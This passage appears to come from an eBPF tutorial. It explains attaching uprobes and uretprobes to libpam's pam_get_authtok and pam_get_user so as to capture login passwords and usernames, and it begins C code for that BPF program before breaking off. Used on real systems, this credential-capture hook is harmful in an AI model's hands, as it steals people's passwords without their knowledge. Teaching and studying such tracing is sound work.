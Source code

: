 {{< alert title="Note" >}}Please note that both `**authtok` in `pam_get_authtok` and `**user` in `pam_get_user` are pointers to pointers.{{< /alert >}}

To capture the password, we need to attach uprobe to libpam `/lib/x86_64-linux-gnu/libpam.so.0:pam_get_authtok` at the entry point and exit point, why entry point and exit point, short answer is that in `pam_get_authtok`  the password pointer (`**authtok`) isn’t fully assigned or valid at the start of the function. Instead, the function fills in that pointer somewhere inside (for example, prompting the user or retrieving from memory), so by the time the function returns, the pointer (and thus the password string) is set. Hence, a uretprobe (return probe) is the only reliable place to grab the final pointer to the password.
The same goes for capturing the user, we need to attach uprobe to libpam `/lib/x86_64-linux-gnu/libpam.so.0:pam_get_user` at the entry point and exit point.

<p style="text-align: center;">
  <img src="/images/docs/chapter3/uprobe-pam.png" alt="Centered image" />
</p>

```c
#define __TARGET_ARCH_x86
#include "vmlinux.h"
#include <bpf/bpf_helpers.h>
#include <bpf/bpf_tracing.h>
#include <bpf/bpf_core_read.h>

#define MAX_PW_LEN 128
#define MAX_USER_LEN 64
char LICENSE[] SEC("license") = "GPL";

struct event {
    int  pid;
    char comm[16];
    char password[MAX_PW_LEN];
    char username[MAX_USER_LEN];
};

struct {
    __uint(type, BPF_MAP_TYPE_RINGBUF);
    __uint(max_entries, 4096);
} events SEC(".maps");

struct {
    __uint(type, BPF_MAP_TYPE_HASH);
    __uint(max_entries, 1024);
    __type(key,   __u32); 
    __type(value, __u64);
} authtok_ptrs SEC(".maps");

struct {
    __uint(type, BPF_MAP_TYPE_HASH);
    __uint(max_entries, 1024);
    __type(key,   __u32); 
    __type(value, __u64);
} user_ptrs SEC(".maps");

SEC("uprobe//lib/x86_64-linux-gnu/libpam.so.0:pam_get_authtok")
int BPF_UPROBE(pam_get_authtok_enter,
               void *pamh,
               int item,
               const char **authtok,
               const char *prompt)
{
    pid_t pid = bpf_get_current_pid_tgid() >> 32;
    __u64 atok_ptr = (unsigned long)authtok;
    bpf_map_update_elem(&authtok_ptrs, &pid, &atok_ptr, BPF_ANY);
```